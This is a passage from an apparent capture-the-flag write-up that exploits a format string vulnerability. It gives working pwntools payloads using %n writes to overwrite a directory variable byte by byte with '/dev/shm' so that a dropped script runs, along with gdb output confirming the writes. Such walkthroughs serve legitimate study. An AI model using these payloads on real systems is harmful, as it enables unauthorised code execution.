 The low 32-bit word has been overwritten with the value 0x14, which is 20, the number of bytes written before it reached the `%n` specifier. If I want a `/`, I need 47 instead of 20, which I can just change in the padding:

```

p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))

```

Running again and then attaching `gdb`:

```

gdb-peda$ x/s &ERSA_DIR
0x55a4ded870f0 <ERSA_DIR>:      "/"
gdb-peda$ x/xg &ERSA_DIR 
0x55a4ded870f0 <ERSA_DIR>:      0x7361652f0000002f

```

#### Write Path

Having shown I can write memory, I want to overwrite `ERSA_DIR` with `/dev/shm`, so I can drop my script in there and have it run.

| Format | Value |
| --- | --- |
| String | /dev/shm |
| Hex | 0x2f6465762f73686d |
| Little Endian | 0x6d68732f7665642f |
| Integer | 7883677795399066671 |

I just need to write 7,883,677,795,399,066,671 bytes before the `%n`. Clearly that isn’t going to work. But I can write it one byte at a time. In many format string attacks, this is done by alternating `%p` (or `%x`) and `%n` specifiers in the same string, with multiple addresses on in the payload to reference. But here, since I can take multiple hits at the format string vuln in the same process memory, I’ll just send a print request for each character I want to write.

I could do something like:

```

p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))
p.sendline("%16$100p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+1))
p.sendline("%16$101p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+2))
p.sendline("%16$118p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+3))
p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+4))
p.sendline("%16$115p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+5))
p.sendline("%16$104p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+6))
p.sendline("%16$109p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+7))

```
